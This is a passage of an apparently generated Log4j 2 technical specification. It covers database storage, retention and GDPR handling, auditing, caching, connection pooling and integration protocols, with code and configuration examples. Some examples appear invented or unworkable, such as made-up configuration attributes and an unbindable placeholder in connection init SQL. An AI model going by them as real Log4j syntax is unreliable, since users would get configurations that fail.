        "1.2.0", new AddColumnsForMDC(),
        "2.0.0", new PartitioningMigration()
    );
    
    public void migrateToVersion(String targetVersion) {
        // Progressive migration execution
    }
}
```

**Migration Script Pattern**:
```sql
-- Migration 1.1.0: Add performance indexes
CREATE INDEX CONCURRENTLY idx_logs_timestamp_level 
ON logs(event_date DESC, level) 
WHERE event_date > CURRENT_DATE - INTERVAL '90 days';

-- Migration 1.2.0: Add MDC support
ALTER TABLE logs ADD COLUMN mdc_data JSONB;
CREATE INDEX idx_logs_mdc_gin ON logs USING GIN(mdc_data);
```

#### Data Migration Strategies

**Online Migration Approach**:
- **Dual-Write Pattern**: Write to both old and new schemas during transition
- **Background Migration**: Asynchronous data transfer with progress tracking
- **Rollback Capability**: Ability to revert to previous schema versions

**Offline Migration Approach**:
- **Scheduled Downtime**: Planned maintenance windows for schema changes
- **Bulk Operations**: Efficient batch processing for large datasets
- **Validation**: Comprehensive data integrity checks post-migration

#### 6.2.3.2 Versioning Strategy

#### Schema Versioning

**Database Schema Versioning**:
```sql
CREATE TABLE schema_versions (
    version VARCHAR(20) PRIMARY KEY,
    applied_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP,
    description TEXT,
    checksum VARCHAR(64)
);

INSERT INTO schema_versions (version, description, checksum)
VALUES ('2.0.0', 'Add partitioning support', 'abc123...def456');
```

#### Configuration Versioning

**Appender Configuration Versioning**:
```xml
<Configuration schema-version="2.0">
    <Appenders>
        <JdbcAppender name="DatabaseAppender" 
                      table-version="1.2.0"
                      migration-strategy="online">
            <ConnectionSource>
                <DataSource>jdbc:postgresql://localhost:5432/logs</DataSource>
            </ConnectionSource>
        </JdbcAppender>
    </Appenders>
</Configuration>
```

#### 6.2.3.3 Archival Policies

#### Time-based Archival

**Automated Archival Strategy**:
```java
@Component
public class LogArchivalManager {
    @Scheduled(cron = "0 0 2 * * ?") // Daily at 2 AM
    public void archiveOldLogs() {
        // Archive logs older than retention period
        jdbcTemplate.execute("""
            INSERT INTO logs_archive 
            SELECT * FROM logs 
            WHERE event_date < CURRENT_DATE - INTERVAL '90 days'
        """);
        
        // Delete archived logs from active table
        jdbcTemplate.execute("""
            DELETE FROM logs 
            WHERE event_date < CURRENT_DATE - INTERVAL '90 days'
        """);
    }
}
```

#### Storage Tier Management

**Hierarchical Storage Strategy**:
- **Hot Storage**: Recent logs (0-30 days) on high-performance storage
- **Warm Storage**: Older logs (30-90 days) on standard storage
- **Cold Storage**: Archived logs (90+ days) on low-cost storage
- **Frozen Storage**: Compliance logs (1+ years) on archival storage

#### 6.2.3.4 Data Storage and Retrieval Mechanisms

#### Storage Optimization

**Column Store Optimization**:
```sql
-- Columnar storage for analytical queries
CREATE TABLE logs_analytical (
    event_date DATE,
    level VARCHAR(10),
    logger_name VARCHAR(255),
    message_length INTEGER,
    error_count INTEGER
) USING columnar;
```

**Compression Strategies**:
- **Row-level Compression**: Compress CLOB columns containing exceptions
- **Dictionary Compression**: Compress repetitive logger names and levels
- **Time-series Compression**: Specialized compression for timestamp data

#### Retrieval Patterns

**Query Optimization Patterns**:
```java
@Repository
public class LogQueryRepository {
    
    @Query("SELECT l FROM LogEntry l WHERE l.eventDate BETWEEN :start AND :end " +
           "AND l.level IN :levels ORDER BY l.eventDate DESC")
    Page<LogEntry> findByDateRangeAndLevels(
        @Param("start") LocalDateTime start,
        @Param("end") LocalDateTime end,
        @Param("levels") List<Level> levels,
        Pageable pageable
    );
    
    @Query("SELECT l FROM LogEntry l WHERE l.loggerName LIKE :pattern " +
           "AND l.eventDate >= :since ORDER BY l.eventDate DESC")
    List<LogEntry> findRecentByLoggerPattern(
        @Param("pattern") String pattern,
        @Param("since") LocalDateTime since
    );
}
```

#### 6.2.3.5 Caching Policies

#### Query Result Caching

**Redis Cache Integration**:
```java
@Service
public class LogQueryService {
    
    @Cacheable(value = "log-queries", key = "#root.methodName + ':' + #args")
    public List<LogEntry> getRecentErrors(String loggerName, Duration period) {
        return logRepository.findByLoggerAndLevel(loggerName, Level.ERROR, period);
    }
    
    @CacheEvict(value = "log-queries", allEntries = true)
    @Scheduled(fixedDelay = 300000) // 5 minutes
    public void clearQueryCache() {
        // Cache invalidation
    }
}
```

#### Connection Caching

**Database Connection Pooling**:
```xml
<DataSource>
    <Property name="initialSize">5</Property>
    <Property name="maxActive">50</Property>
    <Property name="maxIdle">25</Property>
    <Property name="minIdle">5</Property>
    <Property name="maxWait">10000</Property>
    <Property name="validationQuery">SELECT 1</Property>
    <Property name="testOnBorrow">true</Property>
    <Property name="testWhileIdle">true</Property>
    <Property name="timeBetweenEvictionRunsMillis">30000</Property>
</DataSource>
```

### 6.2.4 Compliance Considerations

#### 6.2.4.1 Data Retention Rules

#### Regulatory Compliance Framework

**GDPR Compliance Strategy**:
```java
@Entity
@Table(name = "logs")
public class LogEntry {
    @Column(name = "personal_data_flag")
    private Boolean containsPersonalData;
    
    @Column(name = "retention_period")
    private Integer retentionDays;
    
    @Column(name = "deletion_date")
    private LocalDateTime deletionDate;
    
    @Column(name = "anonymization_applied")
    private Boolean anonymizationApplied;
}
```

**Retention Policy Implementation**:
```sql
-- Automated data retention procedure
CREATE OR REPLACE FUNCTION apply_retention_policy()
RETURNS void AS $$
BEGIN
    -- Delete logs past retention period
    DELETE FROM logs 
    WHERE event_date < CURRENT_DATE - INTERVAL '7 years'
    AND retention_period IS NULL;
    
    -- Anonymize personal data
    UPDATE logs 
    SET message = regexp_replace(message, '\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Z|a-z]{2,}\b', '[EMAIL]', 'g'),
        anonymization_applied = TRUE
    WHERE personal_data_flag = TRUE 
    AND anonymization_applied = FALSE;
END;
$$ LANGUAGE plpgsql;
```

#### 6.2.4.2 Privacy Controls

#### Data Anonymization

**Personal Data Masking**:
```java
@Component
public class DataAnonymizer {
    private final List<AnonymizationRule> rules = Arrays.asList(
        new EmailAnonymizationRule(),
        new CreditCardAnonymizationRule(),
        new SSNAnonymizationRule(),
        new IPAddressAnonymizationRule()
    );
    
    public String anonymize(String message) {
        String result = message;
        for (AnonymizationRule rule : rules) {
            result = rule.apply(result);
        }
        return result;
    }
}
```

**Right to Erasure Implementation**:
```java
@Service
public class DataErasureService {
    
    @Transactional
    public void eraseUserData(String userId) {
        // Delete logs containing user data
        logRepository.deleteByMdcContaining("userId", userId);
        
        // Anonymize remaining references
        logRepository.anonymizeUserReferences(userId);
        
        // Log erasure action for audit
        auditService.logDataErasure(userId, LocalDateTime.now());
    }
}
```

#### 6.2.4.3 Audit Mechanisms

#### Audit Trail System

**Database Audit Configuration**:
```sql
-- Enable audit logging
ALTER SYSTEM SET log_statement = 'all';
ALTER SYSTEM SET log_line_prefix = '%t [%p]: [%l-1] user=%u,db=%d,app=%a,client=%h ';

-- Create audit table
CREATE TABLE audit_log (
    id SERIAL PRIMARY KEY,
    timestamp TIMESTAMP DEFAULT CURRENT_TIMESTAMP,
    user_name VARCHAR(100),
    operation VARCHAR(50),
    table_name VARCHAR(100),
    record_id VARCHAR(100),
    old_values JSONB,
    new_values JSONB,
    ip_address INET
);
```

**Application-level Auditing**:
```java
@Component
public class DatabaseAuditInterceptor {
    
    @EventListener
    public void handleDataModification(DataModificationEvent event) {
        AuditLogEntry entry = AuditLogEntry.builder()
            .timestamp(LocalDateTime.now())
            .operation(event.getOperation())
            .tableName(event.getTableName())
            .recordId(event.getRecordId())
            .userId(SecurityContextHolder.getContext().getAuthentication().getName())
            .ipAddress(getClientIpAddress())
            .build();
            
        auditRepository.save(entry);
    }
}
```

#### 6.2.4.4 Access Controls

#### Role-based Access Control

**Database Security Model**:
```sql
-- Create roles for different access levels
CREATE ROLE log_reader;
CREATE ROLE log_writer;
CREATE ROLE log_admin;

-- Grant appropriate permissions
GRANT SELECT ON logs TO log_reader;
GRANT INSERT ON logs TO log_writer;
GRANT ALL ON logs TO log_admin;

-- Row-level security for multi-tenant environments
CREATE POLICY tenant_isolation ON logs
FOR ALL TO log_reader
USING (tenant_id = current_setting('app.current_tenant_id'));
```

**Application Security Integration**:
```java
@Configuration
@EnableGlobalMethodSecurity(prePostEnabled = true)
public class DatabaseSecurityConfig {
    
    @Bean
    public DataSource secureDataSource() {
        HikariDataSource dataSource = new HikariDataSource();
        dataSource.setJdbcUrl("jdbc:postgresql://localhost:5432/logs");
        dataSource.setConnectionInitSql("SET app.current_tenant_id = ?");
        return dataSource;
    }
    
    @PreAuthorize("hasRole('LOG_ADMIN')")
    public void deleteLogEntries(List<Long> ids) {
        logRepository.deleteAllById(ids);
    }
}
```

### 6.2.5 Performance Optimization

#### 6.2.5.1 Query Optimization Patterns

#### Index-based Optimization

**Strategic Index Design**:
```sql
-- Multi-column indexes for common query patterns
CREATE INDEX idx_logs_performance ON logs (event_date, level, logger_name) 
WHERE event_date >= CURRENT_DATE - INTERVAL '30 days';

-- Partial indexes for specific use cases
CREATE INDEX idx_logs_errors ON logs (event_date, logger_name, message) 
WHERE level IN ('ERROR', 'FATAL');

-- Functional indexes for JSON queries
CREATE INDEX idx_logs_mdc_user ON logs USING GIN ((mdc_data->>'userId')) 
WHERE mdc_data ? 'userId';
```

#### Query Execution Optimization

**Prepared Statement Caching**:
```java
@Repository
public class OptimizedLogRepository {
    
    @Autowired
    private JdbcTemplate jdbcTemplate;
    
    private final String FIND_BY_CRITERIA = """
        SELECT id, event_date, level, logger_name, message 
        FROM logs 
        WHERE event_date BETWEEN ? AND ? 
        AND level = ANY(?) 
        AND logger_name LIKE ?
        ORDER BY event_date DESC 
        LIMIT ?
    """;
    
    public List<LogEntry> findByCriteria(LocalDateTime start, LocalDateTime end, 
                                       List<String> levels, String loggerPattern, int limit) {
        return jdbcTemplate.query(FIND_BY_CRITERIA, 
            new LogEntryRowMapper(), start, end, levels.toArray(), loggerPattern, limit);
    }
}
```

#### 6.2.5.2 Connection Pooling

#### Advanced Connection Pool Configuration

**HikariCP Optimization**:
```xml
<Property name="dataSourceClassName">org.postgresql.ds.PGSimpleDataSource</Property>
<Property name="maximumPoolSize">50</Property>
<Property name="minimumIdle">10</Property>
<Property name="connectionTimeout">30000</Property>
<Property name="idleTimeout">600000</Property>
<Property name="maxLifetime">1800000</Property>
<Property name="leakDetectionThreshold">60000</Property>
<Property name="registerMbeans">true</Property>
<Property name="poolName">Log4j2-HikariCP</Property>
```

**Connection Health Monitoring**:
```java
@Component
public class ConnectionHealthMonitor {
    
    @Autowired
    private DataSource dataSource;
    
    @Scheduled(fixedDelay = 30000)
    public void monitorConnectionHealth() {
        if (dataSource instanceof HikariDataSource) {
            HikariDataSource hikariDataSource = (HikariDataSource) dataSource;
            HikariPoolMXBean poolMXBean = hikariDataSource.getHikariPoolMXBean();
            
            int activeConnections = poolMXBean.getActiveConnections();
            int idleConnections = poolMXBean.getIdleConnections();
            int totalConnections = poolMXBean.getTotalConnections();
            
            if (activeConnections > totalConnections * 0.8) {
                logger.warn("High connection utilization: {}/{}", activeConnections, totalConnections);
            }
        }
    }
}
```

#### 6.2.5.3 Caching Strategy

#### Multi-level Caching Architecture

**L1 Cache (Application Level)**:
```java
@Service
public class LogCacheService {
    
    private final Cache<String, List<LogEntry>> recentLogsCache = 
        Caffeine.newBuilder()
            .maximumSize(1000)
            .expireAfterWrite(Duration.ofMinutes(5))
            .recordStats()
            .build();
    
    public List<LogEntry> getRecentLogs(String loggerName, Level level) {
        String cacheKey = loggerName + ":" + level.name();
        return recentLogsCache.get(cacheKey, key -> 
            logRepository.findRecentByLoggerAndLevel(loggerName, level, Duration.ofMinutes(10))
        );
    }
}
```

**L2 Cache (Distributed)**:
```java
@Configuration
public class DistributedCacheConfig {
    
    @Bean
    public RedisTemplate<String, Object> redisTemplate(RedisConnectionFactory connectionFactory) {
        RedisTemplate<String, Object> template = new RedisTemplate<>();
        template.setConnectionFactory(connectionFactory);
        template.setDefaultSerializer(new GenericJackson2JsonRedisSerializer());
        template.setKeySerializer(new StringRedisSerializer());
        return template;
    }
    
    @Bean
    public CacheManager cacheManager(RedisConnectionFactory connectionFactory) {
        RedisCacheConfiguration config = RedisCacheConfiguration.defaultCacheConfig()
            .entryTtl(Duration.ofMinutes(10))
            .serializeKeysWith(RedisSerializationContext.SerializationPair.fromSerializer(new StringRedisSerializer()))
            .serializeValuesWith(RedisSerializationContext.SerializationPair.fromSerializer(new GenericJackson2JsonRedisSerializer()));
        
        return RedisCacheManager.builder(connectionFactory)
            .cacheDefaults(config)
            .build();
    }
}
```

#### 6.2.5.4 Batch Processing Approach

#### Batch Insert Optimization

**JDBC Batch Processing**:
```java
@Component
public class BatchLogProcessor {
    
    @Autowired
    private JdbcTemplate jdbcTemplate;
    
    private final String INSERT_SQL = """
        INSERT INTO logs (event_date, level, logger_name, message, thread_name, exception_text)
        VALUES (?, ?, ?, ?, ?, ?)
    """;
    
    public void processBatch(List<LogEntry> logEntries) {
        jdbcTemplate.batchUpdate(INSERT_SQL, new BatchPreparedStatementSetter() {
            @Override
            public void setValues(PreparedStatement ps, int i) throws SQLException {
                LogEntry entry = logEntries.get(i);
                ps.setTimestamp(1, Timestamp.valueOf(entry.getEventDate()));
                ps.setString(2, entry.getLevel().name());
                ps.setString(3, entry.getLoggerName());
                ps.setString(4, entry.getMessage());
                ps.setString(5, entry.getThreadName());
                ps.setString(6, entry.getExceptionText());
            }
            
            @Override
            public int getBatchSize() {
                return logEntries.size();
            }
        });
    }
}
```

#### Asynchronous Processing

**Message Queue Integration**:
```java
@Component
public class AsyncDatabaseProcessor {
    
    private final BlockingQueue<LogEntry> logQueue = new LinkedBlockingQueue<>(10000);
    private final ExecutorService processingExecutor = Executors.newFixedThreadPool(4);
    
    @PostConstruct
    public void initializeProcessing() {
        processingExecutor.submit(this::processLogQueue);
    }
    
    private void processLogQueue() {
        List<LogEntry> batch = new ArrayList<>();
        
        while (!Thread.currentThread().isInterrupted()) {
            try {
                LogEntry entry = logQueue.take();
                batch.add(entry);
                
                // Process batch when full or timeout
                if (batch.size() >= 100 || shouldFlushBatch()) {
                    batchLogProcessor.processBatch(new ArrayList<>(batch));
                    batch.clear();
                }
            } catch (InterruptedException e) {
                Thread.currentThread().interrupt();
                break;
            }
        }
    }
}
```

### 6.2.6 Database Architecture Diagrams

#### 6.2.6.1 Database Schema Architecture

```mermaid
erDiagram
    LogEntry {
        bigint id PK
        timestamp event_date
        varchar level
        varchar logger_name
        text message
        varchar thread_name
        clob exception_text
        varchar marker_name
        jsonb mdc_data
        text ndc_data
        varchar request_id
        varchar user_id
        varchar hostname
    }
    
    LogEntryArchive {
        bigint id PK
        timestamp event_date
        varchar level
        varchar logger_name
        text message
        varchar thread_name
        clob exception_text
        timestamp archived_at
    }
    
    SchemaVersion {
        varchar version PK
        timestamp applied_at
        text description
        varchar checksum
    }
    
    AuditLog {
        bigint id PK
        timestamp operation_time
        varchar user_name
        varchar operation
        varchar table_name
        varchar record_id
        jsonb old_values
        jsonb new_values
        inet ip_address
    }
    
    LogEntry ||--o{ LogEntryArchive : "archived_to"
    LogEntry ||--o{ AuditLog : "audits"
    SchemaVersion ||--o{ LogEntry : "defines_schema"
```

#### 6.2.6.2 Data Flow Architecture

```mermaid
graph TB
    subgraph "Application Layer"
        A[Logger.info/warn/error] --> B[LogEvent Creation]
        B --> C[Filter Chain]
        C --> D[Layout Processing]
    end
    
    subgraph "Database Appender Layer"
        D --> E[Database Appender]
        E --> F{Appender Type}
        F -->|JDBC| G[JDBC Appender]
        F -->|JPA| H[JPA Appender]
        F -->|NoSQL| I[NoSQL Appender]
    end
    
    subgraph "Connection Management"
        G --> J[Connection Pool]
        H --> K[EntityManager]
        I --> L[Database Driver]
    end
    
    subgraph "Database Layer"
        J --> M[(Relational DB)]
        K --> M
        L --> N[(NoSQL DB)]
    end
    
    subgraph "Data Processing"
        M --> O[Batch Processing]
        N --> O
        O --> P[Indexing]
        P --> Q[Archival]
        Q --> R[(Archive Storage)]
    end
    
    subgraph "Monitoring & Compliance"
        M --> S[Audit Trail]
        N --> S
        S --> T[Compliance Monitoring]
        T --> U[Data Retention]
    end
```

#### 6.2.6.3 Replication Architecture

```mermaid
graph TB
    subgraph "Primary Database Cluster"
        A[Primary Database] --> B[Synchronous Replica]
        A --> C[Asynchronous Replica]
    end
    
    subgraph "Application Tier"
        D[Log4j2 Application] --> E[Database Appender]
        E --> F{Read/Write Split}
        F -->|Writes| A
        F -->|Reads| G[Load Balancer]
        G --> B
        G --> C
        G --> H[Read Replica 1]
        G --> I[Read Replica 2]
    end
    
    subgraph "Backup & Recovery"
        A --> J[Transaction Log Shipping]
        J --> K[Backup Database]
        K --> L[Point-in-Time Recovery]
    end
    
    subgraph "Cross-Region Replication"
        A --> M[Cross-Region Replica]
        M --> N[Disaster Recovery Site]
    end
    
    subgraph "Monitoring"
        A --> O[Replication Monitor]
        B --> O
        C --> O
        O --> P[Health Dashboard]
        P --> Q[Alerting System]
    end
```

#### 6.2.6.4 NoSQL Database Architecture

```mermaid
graph TB
    subgraph "MongoDB Cluster"
        A[Primary] --> B[Secondary 1]
        A --> C[Secondary 2]
        A --> D[Arbiter]
    end
    
    subgraph "Cassandra Cluster"
        E[Node 1] --> F[Node 2]
        F --> G[Node 3]
        G --> E
    end
    
    subgraph "Application Layer"
        H[Log4j2 MongoAppender] --> I[MongoDB Driver]
        J[Log4j2 CassandraAppender] --> K[Cassandra Driver]
    end
    
    subgraph "Connection Management"
        I --> L[Connection Pool]
        K --> M[Session Pool]
        L --> A
        M --> E
    end
    
    subgraph "Data Distribution"
        A --> N[Sharding]
        N --> O[Shard 1]
        N --> P[Shard 2]
        N --> Q[Shard 3]
    end
    
    subgraph "Consistency & Replication"
        E --> R[Replication Factor]
        R --> S[Consistency Level]
        S --> T[Read/Write Consistency]
    end
```

### 6.2.7 References

#### Files Examined
- `log4j-jdbc-dbcp2/pom.xml` - JDBC DBCP2 module configuration and dependencies
- `log4j-jdbc-dbcp2/src/test/resources/log4j2-jdbc-dbcp2.xml` - JDBC appender test configuration examples
- `log4j-jpa/pom.xml` - JPA module configuration and Hibernate dependencies
- `log4j-jpa/src/test/java/org/apache/logging/log4j/core/appender/db/jpa/TestBaseEntity.java` - JPA entity design patterns
- `log4j-jpa/src/test/resources/META-INF/persistence.xml` - JPA persistence configuration
- `log4j-mongodb3/pom.xml` - MongoDB 3.x module configuration
- `log4j-cassandra/pom.xml` - Cassandra module configuration
- `log4j-cassandra/src/main/java/org/apache/logging/log4j/cassandra/CassandraManager.java` - Cassandra implementation details
- `log4j-cassandra/src/test/resources/CassandraAppenderTest.xml` - Cassandra appender configuration
- `log4j-core/src/main/java/org/apache/logging/log4j/core/appender/db/jdbc/ColumnConfig.java` - JDBC column configuration framework
- `log4j-core/src/main/java/org/apache/logging/log4j/core/appender/db/ColumnMapping.java` - Database column mapping abstractions
- `log4j-core/src/main/java/org/apache/logging/log4j/core/appender/nosql/NoSqlObject.java` - NoSQL abstraction layer

#### Technical Specification Sections Retrieved
- **3.5 DATABASES & STORAGE** - Database technology overview and dependency specifications
- **1.2 SYSTEM OVERVIEW** - System architecture context and integration patterns
- **5.1 HIGH-LEVEL ARCHITECTURE** - Overall system design and component relationships

## 6.3 INTEGRATION ARCHITECTURE

### 6.3.1 Integration Architecture Overview

Apache Log4j 2 implements a **comprehensive integration architecture** that enables seamless connectivity with diverse external systems, protocols, and platforms. Rather than functioning as an isolated logging framework, Log4j 2 serves as an integration hub that bridges applications with enterprise infrastructure, message brokers, databases, and monitoring systems through a rich ecosystem of specialized appender modules and protocol handlers.

The integration architecture is built on three foundational pillars:

- **Protocol Diversity**: Support for HTTP/HTTPS, TCP/UDP, binary protocols, and message queue protocols
- **Extensible Plugin Framework**: Modular design enabling custom integration components
- **Enterprise Integration Patterns**: Implementation of standard patterns for reliable message delivery, error handling, and failover

#### 6.3.1.1 Integration Scope and Capabilities

```mermaid
graph TB
    subgraph "Core Integration Framework"
        A[LoggerContext] --> B[Plugin Registry]
        B --> C[Appender Factory]
        C --> D[Manager Registry]
    end
    
    subgraph "Protocol Handlers"
        E[HTTP/HTTPS] --> F[HttpAppender]
        G[TCP/UDP] --> H[SocketAppender]
        I[Binary Protocols] --> J[KafkaAppender]
        K[Message Queues] --> L[JmsAppender]
    end
    
    subgraph "External System Integration"
        M[Database Systems] --> N[JdbcAppender]
        O[Message Brokers] --> P[FlumeAppender]
        Q[NoSQL Stores] --> R[MongoAppender]
        S[Monitoring Systems] --> T[Custom Appenders]
    end
    
    subgraph "Enterprise Features"
        U[SSL/TLS Security] --> V[Certificate Management]
        W[Authentication] --> X[Authorization Framework]
        Y[Connection Pooling] --> Z[Resource Management]
    end
    
    D --> E
    D --> G
    D --> I
    D --> K
    F --> M
    H --> O
    J --> Q
    L --> S
    V --> F
    X --> H
    Z --> J
```

#### 6.3.1.2 Integration Architecture Principles

| Design Principle | Implementation | Benefits |
|---|---|---|
| **Pluggable Architecture** | Annotation-based plugin discovery | Extensible integration components |
| **Connection Pooling** | Managed connection lifecycle | Resource optimization and scalability |
| **Fault Tolerance** | Retry mechanisms and failover | Resilient integration patterns |
| **Security by Design** | SSL/TLS and authentication support | Enterprise-grade security |

### 6.3.2 API Design

#### 6.3.2.1 Protocol Specifications

##### 6.3.2.1.1 HTTP/HTTPS Integration

Apache Log4j 2 provides comprehensive HTTP/HTTPS support through the `HttpAppender` with `HttpURLConnectionManager`, enabling REST API integration and web service connectivity.

**Protocol Implementation Features**:
- **HTTP Methods**: Full support for GET, POST, PUT operations
- **Header Management**: Custom header configuration via Property elements
- **Content Negotiation**: Automatic content-type detection based on file extensions (XML, JSON, Properties)
- **Conditional Requests**: Support for If-Modified-Since headers for efficient polling

**Configuration Example**:
```xml
<HttpAppender name="RestApiAppender" url="https://api.logging.example.com/events">
    <Property name="Content-Type">application/json</Property>
    <Property name="Authorization">Bearer ${env:API_TOKEN}</Property>
    <JsonLayout complete="false" compact="true"/>
    <ConnectTimeoutMillis>5000</ConnectTimeoutMillis>
    <ReadTimeoutMillis>10000</ReadTimeoutMillis>
</HttpAppender>
```

##### 6.3.2.1.2 TCP/UDP Socket Communication

The `SocketAppender` provides raw socket communication capabilities with comprehensive protocol support and performance optimization.

**Protocol Support Matrix**:
- **TCP**: Reliable stream-based communication with connection management
- **UDP**: Connectionless datagram communication for high-throughput scenarios
- **SSL**: Encrypted socket communication with full certificate support

**Socket Configuration Options**:
```xml
<SocketAppender name="TcpAppender" host="log.example.com" port="4560" protocol="TCP">
    <SocketOptions>
        <keepAlive>true</keepAlive>
        <sendBufferSize>65536</sendBufferSize>
        <receiveBufferSize>65536</receiveBufferSize>
        <soTimeout>30000</soTimeout>
        <tcpNoDelay>true</tcpNoDelay>
    </SocketOptions>
</SocketAppender>
```

##### 6.3.2.1.3 Binary Protocol Support

Log4j 2 supports multiple binary protocols for high-performance integration scenarios:

**Apache Kafka Protocol**:
- Native Kafka producer integration via `KafkaAppender`
- Configurable producer properties for throughput optimization
- Custom key resolution using `StrSubstitutor`

**Apache Flume Avro RPC**:
- Native Avro RPC protocol support via `FlumeAppender`
- Embedded agent support (`FlumeEmbeddedManager`)
- Persistent queue implementation with Berkeley DB

**ZeroMQ Protocol**:
- PUB/SUB pattern implementation via `JeroMqAppender`
- Configurable I/O threads and socket options
- Multi-endpoint binding capabilities

#### 6.3.2.2 Authentication Methods

##### 6.3.2.2.1 Basic Authentication

Log4j 2 implements HTTP Basic Authentication through the `BasicAuthorizationProvider` class, supporting secure credential management.

**Implementation Features**:
- Username/password configuration via properties
- Base64 encoding for Authorization header
- `PasswordDecryptor` interface for encrypted credential support
- Environment variable and system property integration

**Configuration Pattern**:
```xml
<HttpAppender name="SecureHttpAppender" url="https://secure.logging.example.com/events">
    <Property name="Authorization">Basic ${env:BASIC_AUTH_TOKEN}</Property>
    <PatternLayout pattern="%d{ISO8601} [%t] %-5level %logger - %msg%n"/>
</HttpAppender>
```

##### 6.3.2.2.2 SSL/TLS Client Certificate Authentication

Comprehensive SSL/TLS support enables client certificate authentication for enterprise security requirements.

**Certificate Management Features**:
- KeyStore and TrustStore configuration support
- Multiple password providers (Memory, File, Environment)
- Configurable SSL protocols and cipher suites
- Certificate validation and hostname verification

**SSL Configuration Example**:
```xml
<SslConfiguration>
    <KeyStore location="client-keystore.jks" password="${env:KEYSTORE_PASSWORD}"/>
    <TrustStore location="ca-truststore.jks" password="${env:TRUSTSTORE_PASSWORD}"/>
    <Protocol>TLSv1.2</Protocol>
    <VerifyHostName>true</VerifyHostName>
</SslConfiguration>
```

#### 6.3.2.3 Authorization Framework

##### 6.3.2.3.1 Extensible Authorization Architecture

The `AuthorizationProvider` interface enables custom authorization implementations for diverse security requirements.

**Authorization Components**:
- **Property-based Configuration**: Secure credential storage and retrieval
- **Spring Security Integration**: Seamless integration via Spring Boot module
- **JNDI Authentication**: Enterprise directory service integration for JMS connections
- **Custom Authorization Providers**: Extensible framework for custom authentication schemes

##### 6.3.2.3.2 Integration with Enterprise Security

```mermaid
sequenceDiagram
    participant App as Application
    participant Logger as Logger
    participant AuthProvider as AuthorizationProvider
    participant ExtSys as External System
    
    App->>Logger: Log Event
    Logger->>AuthProvider: Authenticate Request
    AuthProvider->>AuthProvider: Validate Credentials
    AuthProvider->>Logger: Return Authorization
    Logger->>ExtSys: Send Authenticated Request
    ExtSys->>Logger: Acknowledge Receipt
    Logger->>App: Complete Processing
```

#### 6.3.2.4 Rate Limiting Strategy

##### 6.3.2.4.1 Throughput Management

Log4j 2 implements multiple rate limiting strategies to prevent system overload and ensure stable performance.

**Rate Limiting Mechanisms**:
- **Retry Policies**: Configurable retry counts with exponential backoff (KafkaAppender)
- **Reconnection Delays**: Configurable delays for network failure recovery
- **Buffer Management**: Asynchronous appenders with configurable buffer sizes
- **Batch Processing**: Aggregated processing for high-throughput scenarios

**Performance Optimization Configuration**:
```xml
<AsyncAppender name="RateLimitedAppender" bufferSize="262144">
    <BlockingQueueFactory>
        <LinkedTransferQueue/>
    </BlockingQueueFactory>
    <AppenderRef ref="KafkaAppender"/>
    <includeLocation>false</includeLocation>
    <shutdownTimeout>3000</shutdownTimeout>
</AsyncAppender>
```

##### 6.3.2.4.2 Backpressure Handling

```mermaid
flowchart TB
    A[Log Event] --> B{Buffer Available?}
    B -->|Yes| C[Enqueue Event]
    B -->|No| D{Backpressure Policy}
    D -->|BLOCK| E[Wait for Space]
    D -->|DISCARD| F[Drop Event]
    D -->|SYNCHRONOUS| G[Direct Processing]
    E --> H[Retry Enqueue]
    H --> C
    C --> I[Async Processing]
    F --> J[Log Discard Warning]
    G --> I
    I --> K[External System]
```

#### 6.3.2.5 Versioning Approach

##### 6.3.2.5.1 API Versioning Strategy

Log4j 2 implements a comprehensive versioning strategy supporting backward compatibility and gradual migration.

**Versioning Components**:
- **Multi-release JARs**: Java 9+ feature utilization while maintaining compatibility
- **API/Implementation Separation**: Clean separation via log4j-api facade
- **Bridge Modules**: Backward compatibility for legacy frameworks (log4j-1.2-api)
- **SLF4J Compatibility**: Support for multiple SLF4J versions (1.7.x, 1.8.x)

##### 6.3.2.5.2 Migration Path Support

| Migration Scenario | Bridge Module | Compatibility Level |
|---|---|---|
| **Log4j 1.x to 2.x** | log4j-1.2-api | Full API compatibility |
| **Commons Logging** | log4j-jcl | Complete replacement |
| **Java Util Logging** | log4j-jul | JUL handler integration |
| **SLF4J Applications** | log4j-slf4j-impl | Native SLF4J binding |

#### 6.3.2.6 Documentation Standards

##### 6.3.2.6.1 Configuration Documentation

Log4j 2 provides comprehensive documentation standards for integration configuration:

**Documentation Framework**:
- **Plugin-based Configuration**: XML/JSON/YAML format support with schema validation
- **Comprehensive Javadoc**: Usage examples and integration patterns
- **Maven Site Generation**: Automated documentation for all modules
- **Integration Samples**: Practical examples in log4j-samples modules

##### 6.3.2.6.2 API Documentation Architecture

```mermaid
graph TB
    subgraph "Documentation Sources"
        A[JavaDoc Comments] --> B[Maven Site Plugin]
        C[XML Schema] --> D[Configuration Reference]
        E[Sample Projects] --> F[Integration Examples]
    end
    
    subgraph "Generated Documentation"
        B --> G[API Reference]
        D --> H[Configuration Guide]
        F --> I[Integration Patterns]
    end
    
    subgraph "Distribution"
        G --> J[Website Publication]
        H --> K[User Manual]
        I --> L[Developer Guide]
    end
```

### 6.3.3 Message Processing

#### 6.3.3.1 Event Processing Patterns

##### 6.3.3.1.1 Synchronous Processing

Log4j 2 supports direct synchronous event processing for low-latency requirements and simple deployment scenarios.

**Synchronous Processing Characteristics**:
- **Direct Dispatch**: Event processing within caller thread
- **Immediate Processing**: No queuing or buffering overhead
- **Blocking Behavior**: Calling thread blocks until processing completes
- **Simple Error Handling**: Direct exception propagation to caller

**Performance Profile**:
- **Latency**: 50-100 microseconds for simple appenders
- **Throughput**: Limited by slowest appender in chain
- **Resource Usage**: Minimal memory overhead
- **Scalability**: Scales with application thread count

##### 6.3.3.1.2 Asynchronous Processing

The framework implements high-performance asynchronous processing using the LMAX Disruptor pattern for enterprise-scale logging requirements.

**LMAX Disruptor Integration**:
- **Lock-free Ring Buffer**: Mechanical sympathy for CPU cache optimization
- **Configurable Buffer Sizes**: Power-of-2 sizing for optimal performance
- **Wait Strategies**: Configurable strategies for latency vs. CPU usage trade-offs
- **Batch Processing**: Automatic event batching for improved throughput

**Asynchronous Architecture**:
```mermaid
sequenceDiagram
    participant AppThread as Application Thread
    participant RingBuffer as Ring Buffer
    participant EventHandler as Event Handler
    participant Appender as Appender
    
    AppThread->>RingBuffer: Enqueue LogEvent
    Note over RingBuffer: Lock-free enqueue
    RingBuffer->>EventHandler: Notify Event Available
    EventHandler->>EventHandler: Batch Events
    EventHandler->>Appender: Process Event Batch
    Appender->>Appender: Format and Output
    AppThread->>AppThread: Continue Processing
```

